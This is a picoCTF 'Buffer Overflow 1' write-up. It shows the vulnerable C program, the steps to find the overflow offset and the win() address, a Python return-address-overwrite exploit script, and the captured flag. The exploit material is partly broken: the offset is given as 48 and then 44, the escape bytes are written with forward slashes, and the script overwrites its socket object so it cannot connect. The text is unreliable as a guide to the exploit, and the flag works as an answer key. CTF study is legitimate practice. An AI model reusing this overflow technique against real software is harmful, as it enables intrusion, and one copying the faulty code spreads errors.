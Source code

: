 # BufferOverFlow1
link challenge: https://play.picoctf.org/practice/challenge/258?category=6&page=2

## Description
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here.

## Solution
get the given file:

    wget https://artifacts.picoctf.net/c/185/vuln https://artifacts.picoctf.net/c/185/vuln
    wget https://artifacts.picoctf.net/c/185/vuln https://artifacts.picoctf.net/c/185/vuln.c

if we run the program with:

    chmod +x vuln
    ./vuln


the program will ask for a string. 

    Please enter your string: 

let's take a step back, we start with analysing the vuln.c source code.

first the BUFSIZE, from it we can consider that the offset maybe 32 or even more.

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    #include "asm.h"

    #define BUFSIZE 32
    #define FLAGSIZE 64



    void win() {
      char buf[FLAGSIZE];
      FILE *f = fopen("flag.txt","r");
      if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
        exit(0);
      }

      fgets(buf,FLAGSIZE,f);
      printf(buf);
    }

    void vuln(){
      char buf[BUFSIZE];
      gets(buf);

      printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
    }

    int main(int argc, char **argv){

      setvbuf(stdout, NULL, _IONBF, 0);
  
      gid_t gid = getegid();
      setresgid(gid, gid, gid);

      puts("Please enter your string: ");
      vuln();
      return 0;
    }

from these three functions, we can know that:
-  function win() is the function that will give us the flag
-  vuln() function seems there's an interesting one, '''

       gets(buf); '''.  that's where the we will get the buffer
   
-  main() function we can know that is call vuln() function after we input a value
-  the end, we know that we can get the buffer by entering some payload while inputing the value

## exploitation step
before inputing some string to the program we must know the number of offset length is.
if we enter 32 A:

    python -c "print('A' * 32)" 

we'll get nothing strange, but if we entered the string length until 48 we'll get a segmentation fault.

    python -c "print('A' * 48)"

the program will crash and give us:
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: done                python -c "print('A' * 48)" | 
zsh: segmentation fault  ./vuln

from this, we know the offset length is 48.

if we analyze the 0x41414141 too, it's a hex number of "AAAA". so the program are jumping to the "AAAA" adresss.

what if we make the program to jump to the win() function address??
so, we must find the address of the win() function with "readelf" tools

the command to see the address function of vuln file is

    readelf -s ./vuln

-s for displaying the symbols table of the file

the output will given us the win() function address: 
    
    080491f6   139 FUNC    GLOBAL DEFAULT   13 win

080491f6 is the address, and don't forget that the address is in the hex number.

if we want to reach the win() function we must input 44 characters and the address of win 080491f6. but we must convert the address of win() to the 
little-endian format first:
/xf6/x91/x04/x08

so, let's execute it with the command:
python -c "print('A' * 44 + '/xf6/x91/x04/x08')" | nc saturn.picoctf.net 62768

but, the flag still doesn't show up.

so, i write a script to exploit this

    #!/usr/bin/env python3
    
    import argparse
    import socket
    import struct

    parser = argparse.ArgumentParser()
    parser.add_argument(
            "host",
            type=str,
            help="host name or ip adress to connect"
            )

    parser.add_argument(
            "port",
            type=int,
            help="port number to connect"
            )

    args = parser.parse_args()

    offset = 44

    new_address = struct.pack("<I", 0x080491f6)

    payload = b"".join(
        [
        b"A" * offset,
        new_address
        ]
    )

    payload += b"\n"

    print(args.host, args.port)

    with socket.socket() as connection:
        connection = socket.socket

        connection.connect((args.host, args.port))
        connection.recv(4096).decode("utf-8")
        connection.send(payload)
        connection.recv(4096).decode("utf-8")
        connection.recv(4096).decode("utf-8")

if we exploit this code with the command: 

    python exploit.py saturn.picoctf.net 62768 

the program will gives us the flag:

    picoCTF{addr3ss3s_ar3_3asy_6462ca2d}



